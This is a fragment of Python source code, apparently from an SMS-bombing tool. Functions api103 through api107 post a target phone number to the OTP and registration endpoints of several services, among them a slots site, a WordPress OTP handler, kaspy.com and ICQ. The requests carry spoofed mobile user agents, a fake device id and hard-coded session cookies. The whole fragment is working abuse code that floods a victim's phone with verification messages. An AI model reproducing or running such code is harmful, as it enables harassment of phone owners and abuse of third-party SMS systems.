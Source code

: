 

def api103(phone):

    get(f"https://bkk-api.ks-it.co/Vcode/register?country_code=66&phone={phone}&sms_type=1&user_type=2&app_version=4.3.25&device_id=79722530562d973f&app_device_param=%7B%22os%22%3A%22Android%22%2C%22app_version%22%3A%224.3.25%22%2C%22model%22%3A%22A37f%22%2C%22os_ver%22%3A%225.1.1%22%2C%22ble%22%3A%220%22%7D&language=th&token=")



#OTP_SMS

def api104(phone):

    post("https://www.vegas77slots.com/auth/send_otp",data=f"phone={phone}&otp=&password=&bank=&bank_number=&full_name=&ref=21076",headers={"content-type": "application/x-www-form-urlencoded","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "vegas77slots=pj5kj4ovnk2fao1sbaid2eb76l1iak7b"})



#privacy

def api105(phone):

    post("https://ipro356.com/wp-content/themes/hello-elementor/modules/index.php",data=f"method=wpRegisterotp&otp_tel={phone}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "PHPSESSID=vtacuje1no166kkp4d40nolak5"})



#kaspy

def api106(phone):

    post("https://kaspy.com/sms/sms.php/",data=f"phone={phone}",headers={"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Cookie": "PHPSESSID=2i484jdb1pie5am071cveupme5; mage-cache-storage=%7B%7D; mage-cache-storage-section-invalidation=%7B%7D; mage-cache-sessid=true; form_key=rUt4Q17TiRlUfgKz; _ga=GA1.2.1486915122.1646803642; _gid=GA1.2.1348564830.1646803642; _fbp=fb.1.1646803643605.1538052508; mage-messages=; recently_viewed_product=%7B%7D; recently_viewed_product_previous=%7B%7D; recently_compared_product=%7B%7D; recently_compared_product_previous=%7B%7D; product_data_storage=%7B%7D; smartbanner_exited=1; __atuvc=2%7C10; __atuvs=62283aaa77850300001; _gat=1; private_content_version=382c8a313cac3cd587475c1b3693672e; section_data_ids=%7B%22cart%22%3A1646803701%2C%22customer%22%3A1646803701%2C%22compare-products%22%3A1646803701%2C%22last-ordered-items%22%3A1646803701%2C%22directory-data%22%3A1646803701%2C%22captcha%22%3A1646803701%2C%22instant-purchase%22%3A1646803701%2C%22persistent%22%3A1646803701%2C%22review%22%3A1646803701%2C%22wishlist%22%3A1646803701%2C%22chatData%22%3A1646803701%2C%22recently_viewed_product%22%3A1646803701%2C%22recently_compared_product%22%3A1646803701%2C%22product_data_storage%22%3A1646803701%2C%22paypal-billing-agreement%22%3A1646803701%2C%22messages%22%3A1646803708%7D"})



def api107(phone):

    post("https://u.icq.net/api/v65/rapi/auth/sendCode", headers={"User-Agent": useragent}, json={"reqId":"39816-1633012470","params":{"phone": f"+66{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})
